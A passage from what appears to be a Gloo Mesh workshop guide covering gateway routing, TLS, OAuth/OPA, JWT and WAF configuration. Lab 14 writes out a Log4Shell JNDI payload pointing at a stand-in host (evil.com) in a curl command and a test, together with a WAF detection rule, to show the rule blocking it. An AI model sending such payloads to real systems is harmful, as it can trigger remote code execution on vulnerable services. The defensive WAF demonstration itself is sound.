    - kind: SERVICE
      labels:
        app: productpage
    - kind: SERVICE
      labels:
        app: reviews
    - kind: ALL
      labels:
        expose: "true"
EOF
```

The Bookinfo team has decided to export the following to the `gateway` workspace (using a reference):
- the `productpage` and the `reviews` Kubernetes services
- all the resources (RouteTables, VirtualDestination, ...) that have the label `expose` set to `true`

This is how the environment looks like with the workspaces:


## Lab 8 - Expose the productpage through a gateway <a name="lab-8---expose-the-productpage-through-a-gateway-"></a>
[](https://youtu.be/emyIu99AOOA "Video Link")

In this step, we're going to expose the `productpage` service through the Ingress Gateway using Gloo Mesh.

The Gateway team must create a `VirtualGateway` to configure the Istio Ingress Gateway in cluster1 to listen to incoming requests.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
      port:
        number: 80
      allowedRouteTables:
        - host: '*'
EOF

```

Then, the Gateway team should create a parent `RouteTable` to configure the main routing.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
        sortMethod: ROUTE_SPECIFICITY
EOF
```

In this example, you can see that the Gateway team is delegating the routing details to the `bookinfo` and `httpbin` workspaces. The teams in charge of these workspaces can expose their services through the gateway.

The Gateway team can use this main `RouteTable` to enforce a global WAF policy, but also to have control on which hostnames and paths can be used by each application team.

Then, the Bookinfo team can create a `RouteTable` to determine how they want to handle the traffic.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: productpage
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  http:
    - name: productpage
      matchers:
      - uri:
          exact: /productpage
      - uri:
          prefix: /static
      - uri:
          prefix: /api/v1/products
      forwardTo:
        destinations:
          - ref:
              name: productpage
              namespace: bookinfo-frontends
              cluster: cluster1
            port:
              number: 9080
EOF
```

You should now be able to access the `productpage` application through the browser.

Get the URL to access the `productpage` service using the following command:
```
echo "http://${ENDPOINT_HTTP_GW_CLUSTER1}/productpage"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (HTTP)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: 'http://' + process.env.ENDPOINT_HTTP_GW_CLUSTER1, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/bookinfo/gateway-expose/tests/productpage-available.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Gloo Mesh translates the `VirtualGateway` and `RouteTable` into the corresponding Istio objects (`Gateway` and `VirtualService`).

Now, let's secure the access through TLS.

Let's first create a private key and a self-signed certificate:

```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
   -keyout tls.key -out tls.crt -subj "/CN=*"
```

Then, you have to store them in a Kubernetes secrets running the following commands:

```bash
kubectl --context ${CLUSTER1} -n istio-gateways create secret generic tls-secret \
--from-file=tls.key=tls.key \
--from-file=tls.crt=tls.crt
```

Finally, the Gateway team needs to update the `VirtualGateway` to use this secret:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
      port:
        number: 80
# ---------------- Redirect to https --------------------
      httpsRedirect: true
# -------------------------------------------------------
    - http: {}
# ---------------- SSL config ---------------------------
      port:
        number: 443
      tls:
        parameters:
          minimumProtocolVersion: TLSv1_3
        mode: SIMPLE
        secretName: tls-secret
# -------------------------------------------------------
      allowedRouteTables:
        - host: '*'

EOF
```

You can now access the `productpage` application securely through the browser.

Notice that we specificed a minimumProtocolVersion, so if the client is trying to use an deprecated TLS version the request will be denied.

To test this, we can try to send a request with `tlsv1.2`:

```console
curl --tlsv1.2 --tls-max 1.2 --key tls.key --cert tls.crt https://${ENDPOINT_HTTPS_GW_CLUSTER1}/productpage -k
```

You should get the following output:

```nocopy
curl: (35) error:1409442E:SSL routines:ssl3_read_bytes:tlsv1 alert protocol version
```

Now, you can try the most recent `tlsv1.3`:

```console
curl --tlsv1.3 --tls-max 1.3 --key tls.key --cert tls.crt https://${ENDPOINT_HTTPS_GW_CLUSTER1}/productpage -k
```

And after this you should get the actual Productpage.
Get the URL to access the `productpage` service using the following command:
```
echo "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/productpage"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Productpage is available (HTTPS)", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/productpage', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/bookinfo/gateway-expose/tests/productpage-available-secure.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');

describe("Otel metrics", () => {
  it("cluster1 is sending metrics to telemetryGateway", () => {
    podName = helpers.getOutputForCommand({ command: "kubectl -n gloo-mesh get pods -l app=prometheus -o jsonpath='{.items[0].metadata.name}' --context " + process.env.MGMT }).replaceAll("'", "");
    command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.MGMT + " -n gloo-mesh debug -q -i " + podName + " --image=curlimages/curl -- curl -s http://localhost:9090/api/v1/query?query=istio_requests_total" }).replaceAll("'", "");
    expect(command).to.contain("cluster\":\"cluster1");
  });
});


EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/bookinfo/gateway-expose/tests/otel-metrics.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=150 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

This diagram shows the flow of the request (through the Istio Ingress Gateway):


## Lab 9 - Create the httpbin workspace <a name="lab-9---create-the-httpbin-workspace-"></a>

We're going to create a workspace for the team in charge of the httpbin application.

The platform team needs to create the corresponding `Workspace` Kubernetes objects in the Gloo Mesh management cluster.

Let's create the `httpbin` workspace which corresponds to the `httpbin` namespace on `cluster1`:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: httpbin
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: httpbin
EOF
```

Then, the Httpbin team creates a `WorkspaceSettings` Kubernetes object in one of the namespaces of the `httpbin` workspace:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: httpbin
  namespace: httpbin
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: not-in-mesh
    - kind: ALL
      labels:
        expose: "true"
EOF
```

The Httpbin team has decided to export the following to the `gateway` workspace (using a reference):
- the `not-in-mesh` Kubernetes service
- all the resources (RouteTables, VirtualDestination, ...) that have the label `expose` set to `true`


## Lab 10 - Expose the httpbin service <a name="lab-10---expose-the-httpbin-service-"></a>

In this step, we're going to expose the httpbin service through the Gateway.

Let's create the `RouteTable` to direct all the traffic to the local `httpbin` service:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - ref:
            name: not-in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin from the local service", () => {
  it('Checking text \'X-Amzn-Trace-Id\' not in ' + process.env.CLUSTER1, () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', body: 'X-Amzn-Trace-Id', match: false }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/httpbin/expose-httpbin/tests/httpbin-from-local.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You should now be able to access `httpbin` service through the gateway.

Get the URL to access the `httpbin` service using the following command:
```
echo "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get"
```


## Lab 11 - Securing the access with OAuth <a name="lab-11---securing-the-access-with-oauth-"></a>
[](https://youtu.be/fKZjr0AYxYs "Video Link")


In this step, we're going to secure the access to the `httpbin` service using OAuth.

First, we need to create a Kubernetes Secret that contains the OIDC secret:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: oauth
  namespace: httpbin
type: extauth.solo.io/oauth
data:
  client-secret: $(echo -n ${KEYCLOAK_SECRET} | base64)
EOF
```

Then, you need to create an `ExtAuthPolicy`, which is a CRD that contains authentication information: 

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
      - oauth2:
          oidcAuthorizationCode:
            appUrl: "https://${ENDPOINT_HTTPS_GW_CLUSTER1}"
            callbackPath: /callback
            clientId: ${KEYCLOAK_CLIENT}
            clientSecretRef:
              name: oauth
              namespace: httpbin
            issuerUrl: "${KEYCLOAK_URL}/realms/master/"
            session:
              failOnFetchFailure: true
              redis:
                cookieName: keycloak-session
                options:
                  host: redis:6379
            scopes:
            - email
            headers:
              idTokenHeader: jwt
EOF
```

Finally, you need to update the `RouteTable` to use this `ExtAuthPolicy`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      labels:
        oauth: "true"
      matchers:
      - uri:
          exact: /get
      - uri:
          exact: /logout
      - uri:
          prefix: /callback
      forwardTo:
        destinations:
        - ref:
            name: not-in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Authentication is working properly", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get extauthpolicy httpbin -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it("The httpbin page isn't accessible without authenticating", () => helpersHttp.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', retCode: 302 }));
  it("The httpbin page is accessible after authenticating", () => helpersHttp.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], retCode: 200 }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/httpbin/gateway-extauth-oauth/tests/authentication.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

If you refresh the web browser, you will be redirected to the authentication page.

If you use the username `user1` and the password `password` you should be redirected back to the `httpbin` application.

You can also perform authorization using OPA.

First, you need to create a `ConfigMap` with the policy written in rego:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: allow-solo-email-users
  namespace: httpbin
data:
  policy.rego: |-
    package test

    default allow = false

    allow {
        [header, payload, signature] = io.jwt.decode(input.state.jwt)
        endswith(payload["email"], "@solo.io")
    }
EOF
```

Then, you need to update the `ExtAuthPolicy` object to add the authorization step:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
      - oauth2:
          oidcAuthorizationCode:
            appUrl: "https://${ENDPOINT_HTTPS_GW_CLUSTER1}"
            callbackPath: /callback
            clientId: ${KEYCLOAK_CLIENT}
            clientSecretRef:
              name: oauth
              namespace: httpbin
            issuerUrl: "${KEYCLOAK_URL}/realms/master/"
            logoutPath: /logout
            afterLogoutUrl: "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get"
            session:
              failOnFetchFailure: true
              redis:
                cookieName: keycloak-session
                options:
                  host: redis:6379
            scopes:
            - email
            headers:
              idTokenHeader: jwt
      - opaAuth:
          modules:
          - name: allow-solo-email-users
            namespace: httpbin
          query: "data.test.allow == true"
EOF
```

Refresh the web page. `user1` shouldn't be allowed to access it anymore since the user's email ends with `@example.com`.
If you open the browser in incognito and login using the username `user2` and the password `password`, you will now be able to access it since the user's email ends with `@solo.io`.

This diagram shows the flow of the request (with the Istio ingress gateway leveraging the `extauth` Pod to authorize the request):


## Lab 12 - Use the JWT filter to create headers from claims <a name="lab-12---use-the-jwt-filter-to-create-headers-from-claims-"></a>
[](https://youtu.be/bpFKbhUIwgM "Video Link")


In this step, we're going to validate the JWT token and to create a new header from the `email` claim.

Keycloak is running outside of the Service Mesh, so we need to define an `ExternalService` and its associated `ExternalEndpoint`:

Let's start by the latter:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalEndpoint
metadata:
  name: keycloak
  namespace: httpbin
  labels:
    host: keycloak
spec:
  address: ${HOST_KEYCLOAK}
  ports:
  - name: http
    number: ${PORT_KEYCLOAK}
EOF
```

Then we can create the former:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: ExternalService
metadata:
  name: keycloak
  namespace: httpbin
  labels:
    expose: "true"
spec:
  hosts:
  - keycloak
  ports:
  - name: http
    number: ${PORT_KEYCLOAK}
    protocol: HTTP
  selector:
    host: keycloak
EOF
```

Now, we can create a `JWTPolicy` to extract the claim.

Create the policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: JWTPolicy
metadata:
  name: httpbin
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    phase:
      postAuthz:
        priority: 1
    providers:
      keycloak:
        issuer: ${KEYCLOAK_URL}/realms/master
        tokenSource:
          headers:
          - name: jwt
        remote:
          url: ${KEYCLOAK_URL}/realms/master/protocol/openid-connect/certs
          destinationRef:
            kind: EXTERNAL_SERVICE
            ref:
              name: keycloak
            port:
              number: ${PORT_KEYCLOAK}
        claimsToHeaders:
        - claim: email
          header: X-Email
EOF
```

You can see that it will be applied to our existing route and also that we want to execute it after performing the external authentication (to have access to the JWT token).

If you refresh the web page, you should see a new `X-Email` header added to the request with the value `user2@solo.io`

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Claim to header is working properly", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get extauthpolicy httpbin -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it('The new header has been added', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], body: '"X-Email": "user2@solo.io"' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/httpbin/gateway-jwt/tests/header-added.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 13 - Use the transformation filter to manipulate headers <a name="lab-13---use-the-transformation-filter-to-manipulate-headers-"></a>


In this step, we're going to use a regular expression to extract a part of an existing header and to create a new one:

Let's create a `TransformationPolicy` to extract the claim.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: TransformationPolicy
metadata:
  name: modify-header
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    phase:
      postAuthz:
        priority: 2
    request:
      injaTemplate:
        extractors:
          organization:
            header: 'X-Email'
            regex: '.*@(.*)$'
            subgroup: 1
        headers:
          x-organization:
            text: "{{ organization }}"
EOF
```

You can see that it will be applied to our existing route and also that we want to execute it after performing the external authentication (to have access to the JWT token).

If you refresh the web page, you should see a new `X-Organization` header added to the request with the value `solo.io`

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Tranformation is working properly", function() {
  let user = 'user2';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get extauthpolicy httpbin -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n httpbin get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it('The new header has been added', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], body: '"X-Organization": "solo.io"' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/httpbin/gateway-transformation/tests/header-added.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->


## Lab 14 - Use the Web Application Firewall filter <a name="lab-14---use-the-web-application-firewall-filter-"></a>
[](https://youtu.be/9q2TxtBDqrA "Video Link")


A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Mesh includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections. 

An example of how using Gloo Mesh we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit. 

Using the Web Application Firewall capabilities you can reject requests containing such headers. 

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That’s what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

Create the WAF policy:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4shell
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \\\${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

In this example, we're going to update the main `RouteTable` to enforce this policy for all the applications exposed through the gateway (in any workspace).

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      labels:
        waf: "true"
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
        sortMethod: ROUTE_SPECIFICITY
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("WAF is working properly", function() {
  it('The request has been blocked', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'x-my-header', value: '${jndi:ldap://evil.com/x}'}], body: 'Log4Shell malicious payload' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/httpbin/gateway-waf/tests/waf.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get" -i
```

The request should be rejected:

```,nocopy
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```


Let's apply the original `RouteTable` yaml:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
        sortMethod: ROUTE_SPECIFICITY
EOF
```

And also delete the waf policy we've created:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete wafpolicies.security.policy.gloo.solo.io log4shell
```


## Lab 15 - Use the WAF to block based on source country <a name="lab-15---use-the-waf-to-block-based-on-source-country-"></a>

A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Mesh includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections.

In this example we will block requests that originate in a certain country. This works by configuring a WAF rule that can look up the country that the client IP address is located in then check whether that country should be blocked from accessing our services. The response returned to a client that is blocked can be configured in the rule.

Before we get started, we'll need to patch the ingress gateway so that it can use the lookup database of countries and IP addresses. We'll also need to patch the gateway service to preserve the client IP address, so that the true source is used for the lookup. The following commands apply the patches:

```bash
kubectl --context ${CLUSTER1} -n istio-gateways patch deployment $(kubectl --context ${CLUSTER1} -n istio-gateways get deploy -l istio=ingressgateway -o jsonpath='{.items[0].metadata.name}') --patch-file data/steps/gateway-geoblock/gateway-patch.yaml
kubectl --context ${CLUSTER1} -n istio-gateways patch svc $(kubectl --context ${CLUSTER1} -n istio-gateways get svc -l istio=ingressgateway -o jsonpath='{.items[0].metadata.name}') -p '{"spec":{"externalTrafficPolicy":"Local"}}'
```

<i>Note: The file at `gateway-geoblock/glm-example.yaml` is a version of the `GatewayLifecycleManager` that uses a MaxMind agent to keep the geolocation database up to date. We don't use that here, but recommend it for production use.</i>

Now, let's test blocking traffic by country. Identify the two-character ISO 3166-1 code representing the country you're in and set it in a variable that we'll use in the WAF configuration. For example, use `US` for the USA, or `GB` for the United Kingdom. A comprehensive collection of country codes is in [this list](https://en.wikipedia.org/wiki/ISO_3166-1_alpha-2#Officially_assigned_code_elements).

```bash
export COUNTRY_CODE=GB
```

Create the WAF policy that will block traffic to the country you’re in:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: geoblock
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Not available in your country'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecDebugLog /dev/stdout
        SecDebugLogLevel 9
        SecGeoLookupDb /etc/geoip/database/GeoLite2-Country.mmdb
        SecRule REQUEST_HEADERS:X-Envoy-External-Address "@geoLookup" "chain,id:22,deny,status:403,msg:'Blocked in prohibited country'"
        SecRule GEO:COUNTRY_CODE "@streq ${COUNTRY_CODE}"
    auditLogging:
      action: ALWAYS
      location: DYNAMIC_METADATA
EOF
```

In this example, we're also going to update the main `RouteTable` to enforce this policy for all the applications exposed through the gateway (in any workspace). We'll do this by adding the label `waf: "true"` to the route:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
  - '*'
  virtualGateways:
  - name: north-south-gw
    namespace: istio-gateways
    cluster: cluster1
  workloadSelectors: []
  http:
  - name: root
    labels:
      waf: "true"
    matchers:
    - uri:
        prefix: /
    delegate:
      routeTables:
        - labels:
            expose: "true"
      sortMethod: ROUTE_SPECIFICITY
EOF
```

Open the "httpbin" tab at the top of this page. If you are in the country that you configured to block requests from, you should see the message `Not available in your country`. You can check the headers in your browser to confirm that you got a response with HTTP status `403 Forbidden`:

```,nocopy
HTTP/3 403 Forbidden
content-length: 29
content-type: text/plain
date: Fri, 30 Jun 2023 16:22:00 GMT
server: istio-envoy

Not available in your country
```

Let's update the WAF policy so that it blocks requests from a different country. Set the prohibited country to the code of a country you're *not* in:

```bash
export COUNTRY_CODE=KP #North Korea
```

Now update the policy with this restriction:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: geoblock
  namespace: httpbin
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Not available in your country'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecDebugLog /dev/stdout
